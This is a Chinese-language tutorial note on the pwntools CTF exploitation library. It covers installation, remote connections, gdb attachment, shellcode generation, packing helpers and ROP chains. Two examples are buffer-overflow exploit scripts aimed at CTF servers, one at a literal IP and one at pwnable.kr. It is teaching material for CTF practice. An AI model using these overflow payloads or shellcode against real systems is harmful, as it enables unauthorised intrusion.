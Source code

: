 # pwntools

Pwntools 是一个CTF框架和漏洞利用开发库，使用Python编写，专为快速原型设计和开发而设计，旨在使漏洞利用编写尽可能简单。  

github地址: https://github.com/Gallopsled/pwntools  
官方文档: http://docs.pwntools.com/  


## 安装
建议的系统：  
```r
64-bit Ubuntu LTS releases (14.04, 16.04, 18.04, and 20.04)
```

安装命令：  
```r
sudo apt-get update
sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```


## 使用
官方说明例子：  
```python
from pwn import *
context(arch = 'i386', os = 'linux')

r = remote('exploitme.example.com', 31337)
# EXPLOIT CODE GOES HERE
r.send(asm(shellcraft.sh()))
r.interactive()
```

例子2：  
```python
from pwn import *

pwn = remote('118.193.194.73',10000)

#  sh = process('/bin/sh') # 本地调试

pwn.recvuntil('let\'s begin!\n')

payload = ''
payload += 'a'*112
payload += p32(0x0804865D)

pwn.sendline(payload)

pwn.interactive()
```

例子3：  
```python
# remote.py
"""
Example showing how to use the remote class.
"""

from pwn import *   # 也可以直接   import pwn

sock = remote('127.0.0.1', 9001)     # 连接远程服务

print sock.recvline()           #  接收一行
sock.recvuntil("hello")          # 直到接收到某字符串
sock.recv()          # 接收就对了
sock.send('foo')                 #  发送消息
sock.interactive()               #  进入交互模式
```

例子4：  
```python
# coding:utf8

from pwn import *

conn = remote('pwnable.kr',9000)
#conn = process("./bof")                   # 这样可以本地调试

payload = 'a'*52 + p32(0xcafebabe)    

conn.sendline(payload)
conn.interactive()
```


## 一些点

### 附加gdb调试
http://docs.pwntools.com/en/stable/gdb.html#member-documentation  
如果执行脚本参数有'G'，就附加gdb，进行调试  
```r
if args.G:
    gdb.attach(conn, 'b * 0x0804868F')
```

一个附加调试脚本示例：  
```python
# Start a process
bash = process('bash')

# Attach the debugger
gdb.attach(bash, '''
set follow-fork-mode child
break execve
continue
''')

# Interact with the process
bash.sendline('whoami')
```

### 区分本地调试或远程利用
如果执行脚本参数有"REMOTE"，进行远程利用，否则本地调试  
```python
if args['REMOTE']:
    io = remote('exploitme.com', 4141)
else:
    io = process('./pwnable')
```

### 接收某数据后发送
```python
conn.sendafter('Hello', payload)  # 接收到"Hello"之后就发送
conn.sendlineafter('Hello', Payload)  # 会带回车
```

### 汇编反汇编
```python
asm('mov eax, 0')
disasm('\xb8\x00\x00\x00\x00')
```

### 生成shellcode
```python
asm(shellcraft.sh())
```

### 数据互转
```python
# 将数字地址转成64位小端数据
p64(0x12345678)
# 将小端数据转为数字地址，举一反三 32/16/8
u64()
```

### 设置合适的参数
```python
context.binary = './challenge-binary'
```

### 生成ELF对象，方便查看各种表的信息
```python
ELF('./challenge-binary')
```

### 获取函数地址
```python
get_shell = ELF('./challenge-binary').sym['getshell']
# sym是symbols的别名，所以 .symbols是全称
```

### 组合元素
默认是4个字节的小段序，可以设置  
```python
flat(['a' * 0x70, pop_eax_ret_addr, 0xb, pop_edx_ecx_ebx_ret_addr, 0, 0, bin_sh_addr, int_addr])
```


2017/9/2  
